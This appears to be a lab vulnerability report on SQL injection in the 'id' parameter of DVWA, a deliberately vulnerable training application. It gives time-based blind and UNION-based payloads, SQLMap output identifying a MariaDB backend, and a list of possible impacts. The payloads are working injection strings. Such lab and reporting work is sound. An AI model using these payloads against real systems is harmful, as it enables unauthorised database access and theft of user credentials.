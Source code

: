 ## Vulnerability Info

### 1. Vulnerable Parameter

- **Parameter:** `id` (GET request)
- **Location:** Observed in login_request.txt( It contain the raw HTTP request from the sqli page in DVWA ) during automated scanning


### 2. Injection Types Confirmed

| Method | Description | Example Payload |
| :-- | :-- | :-- |
| Time-based Blind | Server response delayed if injection is successful. | `id=admin' AND (SELECT SLEEP(5)) AND 'ZIVL'='ZIVL&Submit=Submit` |
| UNION-based Injection | Allows extraction of data by combining SELECT results. | `id=admin' UNION ALL SELECT CONCAT(...hex...),NULL-- -&Submit=Submit` |

### 3. Technical Evidence

- SQLMap confirmed the backend is **MySQL (MariaDB fork)**.
- The vulnerable endpoint responds positively to both time-based and UNION query payloads.
- Affected parameter is verified to be **injectable** using multiple techniques.


#### SQLMap Output Excerpt

```
sqlmap identified the following injection point(s) with a total of 120 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=admin' AND (SELECT 2138 FROM (SELECT(SLEEP(5)))IxYj) AND 'ZIVL'='ZIVL&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=admin' UNION ALL SELECT CONCAT(0x716b787871,0x4e617a516e5462456a65504151506b4b67637744755153716b5041736f6b4d65596c777176754b62,0x716a717171),NULL-- -&Submit=Submit
---
web server operating system: Linux Debian
web application technology: Apache 2.4.63
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```


## Potential Impact

- Attackers can pull out sensitive stuff like user details, passwords, and more.
- There’s a chance the database could get tampered with; data might be changed, wiped out, or messed up.
- If login credentials are leaked, it could lead to deeper system breaches.
- These kinds of issues can hit hard, breaking compliance rules and damaging the brand’s image.
